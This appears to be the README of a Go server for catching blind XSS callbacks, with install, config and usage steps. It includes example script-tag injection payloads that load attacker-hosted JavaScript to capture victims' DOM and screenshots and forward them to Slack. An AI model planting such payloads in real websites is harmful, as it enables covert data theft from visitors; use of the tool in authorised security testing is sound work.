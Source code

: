 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
go install github.com/pichik/webwatcher@latest // isthiscomment?
```
2. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
```

3. Setup `.wwconfig` and add it to your home directory.  
4. Make sure that `assets` and `templates` are in the directory specified in config.  


## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.
`<script src=https://example.com></script>`  
![blind xss](screenshots/blindxss.png)  



